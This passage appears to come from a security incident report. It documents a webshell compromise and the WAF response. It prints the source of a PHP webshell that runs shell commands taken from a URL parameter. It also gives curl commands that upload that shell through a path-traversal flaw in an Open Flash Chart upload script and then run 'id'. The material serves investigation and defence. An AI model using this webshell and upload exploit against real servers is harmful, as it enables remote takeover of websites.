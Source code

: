 ```
SHA256(basic_php_webshell.php) = 770fbbdfe8b788d6b64df06a34dddfad77f5e33bb472142d74c3f610d6e613b5
```

**Source Code:**

```php
<?php
if(isset($_GET['cmd'])){
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
```

**Command used for upload test:**

```bash
curl -X POST \
  "https://[redacted-domain]/app/Controller/php-ofc-library/ofc_upload_image.php?name=../../../../../../var/www/html/shell.php" \
  --data-binary @/redacted/redacted/payloads/basic_php_webshell.php
```

**Execution test:**

```bash
curl "https://[redacted-domain]/shell.php?cmd=id"
```

> Response: `Recv failure: Connection reset by peer`

### Webshell Functionality Test Results

The test demonstrated that a vulnerability in the file upload handler could be exploited to deploy a webshell. Requests to the webshell endpoint resulted in connection resets, indicating:

- Active webshells likely exist and are reachable.
- Execution appears blocked by security controls.
- Behavior typical of mod_security, Imperva, or Sucuri WAF protection.

**PLAIN ENGLISH/TL:DR:** We created a harmless test file that used the same techniques as the attackers to confirm our understanding of the problem. This helped us verify that the website's security system was properly detecting and blocking these attacks without changing the website code or alerting the attackers.


## WAF Enhancement & Exploit Verification

To validate our understanding of the WAF bypass techniques, we created a test payload incorporating the same evasion methods, then modified it to be caught by WAF rules:

1. Initial deobfuscated shells were exposed to the WAF for signature learning.
2. Test attempts to upload similar payloads were automatically blocked.
3. Timing analysis confirmed WAF was now detecting and blocking with ~50ms response time.
4. Previously established shells were effectively neutralized.

This remediation approach allowed us to:

- Document the exploitation techniques.
- Enhance WAF protection.
- Validate security controls.
- Neutralize threats without modifying the application environment.
- Maintain operational stealth during the investigation.
